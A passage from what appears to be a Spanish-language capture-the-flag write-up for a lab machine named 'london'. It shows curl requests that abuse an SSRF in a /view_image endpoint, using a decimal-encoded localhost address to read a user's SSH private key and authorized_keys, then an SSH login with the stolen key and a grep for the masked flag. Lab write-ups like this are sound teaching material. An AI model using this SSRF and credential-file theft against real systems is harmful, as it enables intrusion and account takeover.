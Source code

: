Ejecutamos **curl** sobre el fichero *id_rsa*, logrando extraer la clave privada:
```
> curl -s 'http://10.10.110.17:8080/view_image' -d 'www=http://2130706433/.ssh/id_rsa'
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAz1yFrg9FAZAI4R37aQWn/ePTk/MKfz2KQ+OE45KErguL34Yj
<SNIP>
fDLzMA915WcODR6L0mWO0crAMbZQOkg1KlAiwQSQmuUpPqyAfq6x
-----END RSA PRIVATE KEY-----
```
Lanzamos **curl** sobre el fichero *authorized_keys*, donde logramos enumerar el usuario *beth*:
```
> curl -s 'http://10.10.110.17:8080/view_image' -d 'www=http://2130706433/.ssh/authorized_keys'
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPXIWuD0UBkAjhHftpBaf949OT8wp/
<SNIP>
+mpcdm7sHAAszk0eFcI2a37QQ4Fgq96OwMDo15l8mDDrk1Ur7aF beth@london
```

Nos conectamos por **SSH** y con la clave privada (recordemos que hay que darle permisos de solo propietarios con lectura y escritura "*chmod 600 beth-id_rsa*" ;))
```
> ssh beth@10.10.110.17 -i ../files/beth-id_rsa
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon May 13 22:38:30 2024 from 192.168.62.137
beth@london:~$ ls -lna
total 72
drwxr-xr-x 11 1000 1000 4096 May  7 06:36 .
drwxr-xr-x  4    0    0 4096 Mar 10  2024 ..
-rw-rw-r--  1 1000 1000 3215 Apr 17 03:44 app.py
lrwxrwxrwx  1    0    0    9 Sep 17  2023 .bash_history -> /dev/null
-rw-r--r--  1 1000 1000  220 Sep 16  2023 .bash_logout
-rw-r--r--  1 1000 1000 3771 Sep 16  2023 .bashrc
drwx------  4 1000 1000 4096 Mar 11  2024 .cache
drwxrwxr-x  6 1000 1000 4096 Sep 17  2023 .env
drwx------  3 1000 1000 4096 Mar 10  2024 .gnupg
-rw-rw-r--  1 1000 1000  328 Apr 17 04:03 gunicorn_config.py
-rw-r--r--  1 1000 1000 1270 Apr 17 05:31 index.html
drwxrwxr-x  5 1000 1000 4096 Mar 11  2024 .local
-rw-r--r--  1 1000 1000  807 Sep 16  2023 .profile
drwxrwxr-x  2 1000 1000 4096 Apr 23 22:15 __pycache__
-rw-rw-r--  1    0    0   66 Sep 18  2023 .selected_editor
drwx------  2 1000 1000 4096 Mar 25  2024 .ssh
drwxrwxr-x  2 1000 1000 4096 Apr 17 05:29 static
-rw-r--r--  1 1000 1000    0 Sep 16  2023 .sudo_as_admin_successful
drwxrwxr-x  2 1000 1000 4096 Apr 17 03:46 templates
drwxrwxr-x  2 1000 1000 4096 Sep 28 09:56 uploads

beth@london:~$ grep -r -i 'THM{'
__pycache__/user.txt:THM{****************}
```
